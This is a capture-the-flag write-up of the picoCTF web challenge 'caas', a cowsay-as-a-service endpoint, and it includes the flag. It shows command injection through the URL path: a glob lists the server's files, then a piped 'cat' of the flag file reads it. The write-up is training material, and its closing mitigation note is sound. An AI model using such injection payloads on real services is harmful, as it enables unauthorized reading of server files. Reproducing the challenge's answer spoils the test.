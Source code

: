 ## CTF: WEB Fall 25 
Challenge: caas

Category:  web 

Points:

Difficulty:  Intermediate 

## Instructions

Now presenting cowsay as a service

## Solution
* What does caas maean (3 possiblities)
1. Cyber-Crime as a service
2. Cloud as a service
3. Container as a service
* After clicking the link it say to make a request to 
https://caas.mars.picoctf.net/cowsay/{message}
* From here you can change the {message} and have a asci art pop up with whatever youtyped in it.

https://caas.mars.picoctf.net/cowsay/give%20me%20the%20flag

        __________________
        < give me the flag >
        ------------------
                \   ^__^
                 \  (oo)\_______
                    (__)\       )\/\
                        ||----w |
                        ||     ||

When selecting all there is no hidden text on the screen
* need to find out what the message text is doing
* when you put in / where message was you get

        Cannot GET /cowsay//

This means it is doing some sort of command  
* Is it doing cd?
* echo?
* a custom command?

Lets check cd first
* When entering . is set I get

        Cannot GET /cowsay/
* When entering .. it sends me back to the starting site
* When entering * I get

        __________________________________
        / Dockerfile falg.txt index.js     \
        | node_modules package.json public |
        \ yarn.lock                        /
        ----------------------------------
                \   ^__^
                 \  (oo)\_______
                    (__)\       )\/\
                        ||----w |
                        ||     ||
    
Bingo have to find how to open falg.txt

Trying to open falg.txt  
* Entering cat flag.txt
    * I get the cow saying cat falg.txt
* Need to find out how to run multiple commands at once  
Pipe it?
* When entering hi|cat falg.txt I get 

        picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}


## Flag

picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}

## Mitigation

1. Do not have the url direclty linked to commands of a program that has accces to files with valuable data.